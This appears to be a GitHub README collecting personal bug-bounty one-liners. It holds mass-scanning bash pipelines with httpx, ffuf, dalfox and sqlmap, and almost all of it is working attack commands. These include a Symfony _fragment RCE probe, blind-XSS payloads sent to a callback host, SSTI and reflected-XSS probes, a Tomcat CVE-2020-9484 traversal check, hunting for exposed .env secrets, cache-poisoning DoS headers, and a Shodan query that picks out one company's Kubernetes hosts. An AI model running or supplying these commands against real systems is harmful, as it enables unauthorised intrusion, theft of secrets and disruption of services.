 **This oneliner was created by me for personal use**

### Oneliner to fuzz all hosts with wordlist using httpx and send every request to burpsuite for more investigations:- 

```bash
httpx -l hosts -paths dir.txt -threads 100 -random-agent -x GET,POST  -tech-detect -status-code  -follow-redirects -title -http-proxy http://127.0.0.1:8080
```

### Found bug with custom wordlist from robots.txt 

```bash
httpx -l urls.txt -paths /robots.txt -silent -o robots-url.txt
```

```bash
for url in $(cat robots-url.txt);do http -b $url | grep 'Disallow' | awk -F ' ' '{print $2}' | cut -c 2- | anew robot-words.txt;done
```

### RCE ONELINER WITH HTTPX

```bash
httpx -l hosts.txt -path /_fragment?_path=_controller=phpcredits&flag=-1 -threads 100 -random-agent -x GET  -tech-detect -status-code  -follow-redirects -title -mc 200 -match-regex "PHP Credits"
```

```bash
cat pay-subdomains | sed 's/$/\/_fragment?_path=_controller=phpcredits&flag=-1/' | httpx -status-code
```

### Blind XSS Oneliner with dalfox 


```bash
assetfinder [host] | hakrawler -plain -usewayback -wayback | grep "=" | egrep -iv ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt|js)" | qsreplace -a | dalfox pipe -b your.xss.ht -o out.txt
```

### Find Kubernetes with shodan and httpx

```bash
shodan search org:"google" product:"Kubernetes" | awk '{print $3}' | httpx -path /pods -content-length -status-code -title
```

### Finding SSTI with ffuf 

```bash
cat subdomains | gau -subs |grep = |qsreplace "sstitest{{7*7}}" |ffuf -w - -u FUZZ -mr "sstitest49" -t 100 -o ./$chaos.ssti.txt ; done
```

### A POC for CVE-2020-9484

```bash
cat targets.txt | while read host do;do curl --insecure --silent -X GET $host/index.jsp -H 'Cookie: JSESSIONID=../../../../../usr/local/tomcat/groovy' | grep -qs "PersistentManagerBase" && \printf "$host \033[0;31mCVE-2020-948444\n"
```

### FUZZING ADMIN LOGIN WITH HTTPX 
- [ADMIN LOGIN WORDLIST](https://raw.githubusercontent.com/emadshanab/admin-login/main/admin-login.txt)

```bash
httpx -l allhosts -paths /root/admin-login.txt -threads 100 -random-agent -timeout 10 -tech-detect -status-code -follow-redirects -title -content-length
```

### fuzzing for .env using httpx

```bash
httpx -l hosts -path /api/.env -threads 100 -random-agent -x GET,POST  -tech-detect -status-code  -follow-redirects -title -match-regex "APP_SECRET"
```

### Cache dos poisoning 

```bash
cat ~/domain.txt | httprobe | while read url;do ww=$(for i in "X-Oversized-Header-1: Big_Valuetestetstsetsetstsetestsetsetsetsetsetestsetsetsetsetsetsetsetsetsetesset" "X-Meta-Malicious-Header: \r\n" "X-HTTP-Method-Override: POST" "X-Forwarded-Port: 123" "X-Forwarded-Host: $url:123";do curl -s -L -I -H $i $url;done|grep HTTP|grep -v '301 '|awk '{ printf "%3d: %s\n", NR, $0 }');echo -e "\e[1;32m$url\e[0m""\n""$ww""\n";done
```

### WordPress Oneliner for a misconfigured WP login to setup page

```bash
httpx -l hosts.txt -threads 100 -paths /wp-admin/setup-config.php?step=1 -title -tech-detect -status-code
```

### Django admin panel bypass

```bash
httpx -l hosts.txt -threads 100 -x POST -paths /admin/login/?next=/admin/ -title -tech-detect -status-code -title -follow-redirects
```

### ffuf combination with rush for faster threading

```bash
rush -i /opt/recon/xxx/hostsAlive -j 10 'ffuf -o $(echo {} | unfurl domains) -w /opt/SecLists/Discovery/Web-Content/raft-large-files.txt -u "{}/FUZZ" -sf -ignore-body -mc 200 -t 300'
```

### SQLMAP with paramspider 

```bash
python3 paramspider.py -d target.com -s TRUE -e woff,ttf,svg,eot | deduplicate --sort | sed '1,4d' | httpx -silent | sqlmap --level=5 --risk=3 
```

### Mass CVE-2020-17453 scanning 

```bash
subfinder -d target.com -all | httpx -paths /carbon/admin/login.jsp?msgId=%27;alert(1)// -status-code -location -content-length 
```
















